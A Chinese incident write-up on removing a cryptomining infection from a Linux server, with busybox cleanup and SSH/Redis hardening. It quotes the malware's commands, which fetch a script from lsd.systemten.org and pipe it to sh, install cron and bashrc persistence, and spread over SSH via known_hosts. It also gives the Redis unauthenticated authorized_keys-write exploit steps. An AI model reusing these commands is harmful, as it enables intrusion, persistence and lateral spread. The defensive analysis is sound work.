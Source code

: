 ## 被挖矿入侵处理记录

1. 服务器一些操作后异常提示

   ````
   [1]+  完成                  ( curl -fsSL -m180 lsd.systemten.org || wget -q -T180 -O- lsd.systemten.org ) | sh > /dev/null 2>&1
   ````

   提取其中地址``lsd.systemten.org``，浏览器请求返回如下:

   ````
   export PATH=PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin mkdir -p /tmp chmod 1777 /tmp echo "*/10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen(\"http://lsd.systemten.org\").read()')|sh"|crontab - cat > /etc/crontab </dev/null 2>&1 &" & done fi for file in /home/* do if test -d file; then if [ -f file/.ssh/known_hosts ] && [ -f file/.ssh/id_rsa.pub ]; then for h in (grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL lsd.systemten.org||wget -q -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh >/dev/null 2>&1 &" & done fi fi done #
   		
   ````

2. 首先 ps、top命令异常，被篡改

   > 入nginx进程明明移动 ps-ef | grep nginx 返回确实空
   >
   > top命令展示内容也少了很多

3. 发现阿里云警告

   > 提示：挖矿程序

4. crontab中出现莫名其妙任务

   ````
   */10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh
   ````

   并且 /etc/crontab中出现
   
   ````
   SHELL=/bin/bash
   PATH=/sbin:/bin:/usr/sbin:/usr/bin
   
   */10 * * * * root (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()'||/usr/local/sbin/ea2a9852817e39)|sh
   ````
   
5. 删除以上内容后重启，发现又出现，怀疑在启动命令中隐藏东西 ``vim /etc/bashrc`` 

   ````
   ##
   (curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
   ##
   ````

   异常启动文件可能存在的目录

   ````
   /etc/rc.d/init.d/
   /etc/init.d/
   ````
   
6. 使用busybox查杀

## Busybox查杀病毒

* 安装解压工具

````
yum -y install bzip2
````

* 安装busybox

````
wget http://busybox.net/downloads/busybox-1.21.0.tar.bz2
tar -xvf busybox-1.21.0.tar.bz2
cd ./busybox-1.21.0
make defconfig
#注意，这里最好在相同操作系统的正常机器上进行静态链接
#防止动态链接还被挖矿病毒的动态库劫持，导致删除文件不成功
#如果条件不允许，第二点将会重点说明
make
make install
ln -s `pwd`/busybox /usr/bin/busybox
busybox|grep BusyBox |grep v
————————————————
版权声明：本文为CSDN博主「芽孢八叠球菌」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/u010457406/article/details/89328869
````

* 查杀异常进程

````
busybox ls -a /tmp |grep ds
...
busybox ls -a /usr/sbin |grep kerber
...
busybox ls -a /etc |grep ld.so.preload
...
busybox ls -a /usr/local/lib |grep libcry 
...
````

将上4条命令搜索出来的结果逐一精确删除，不要使用 ``rm -rf 什么什么*``方式删除，要具体名称，而且使用tab无法搜索到这些文件

* 查杀异常进程

````
busybox ps -ef | busybox grep -v grep | busybox grep 'kerberods'
busybox ps -ef | busybox grep -v grep | busybox grep 'khugepageds' 
````

### 病毒分析

````
(curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
````

````
该下载后的脚本主要操作有
1> 将指令添加到crontab中
2> kill掉同类挖矿进程
3> kill掉高好资源的其他进程
4> 下载执行主恶意程序（这个未知）
5> 横向ssh传播
````

### 安全加固

1. SSH
   
   * 谨慎做免密登录.    
   * 不使用默认的22端口.    
   * 禁止root登录.    
   
2. Redis
   
   * 增加授权认证(requirepass参数).    
   * 尽量使用docker版本(docker pull redis).    
   * 隐藏重要的命令.
   * 启动redis使用redis专属用户，否则知道你redis密码的人同样可进入    
   * 或者禁止外部访问，绑定IP可改为127.0.0.1
   
   

> 我的按照入侵时间点估计是因为：redis未认证漏洞

禁止root登录，前提是你要有一个非root用户

vim /etc/ssh/sshd_config

````
PermitRootLogin = no
````

修改默认ssh端口22 比如改成33

vim /etc/ssh/sshd_config

````
port 33
````

重启sshd

````
systemctl restart sshd
````

__注意阿里云防火墙，同样最好关闭22端口和其他不需要对外的端口__

关于redis未认证漏洞防范

参考：https://www.cnblogs.com/xun0523/p/9804999.html

破解步骤

````
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
````

> 这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。
>
> 这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里

参考：http://www.alloyteam.com/2017/07/12910/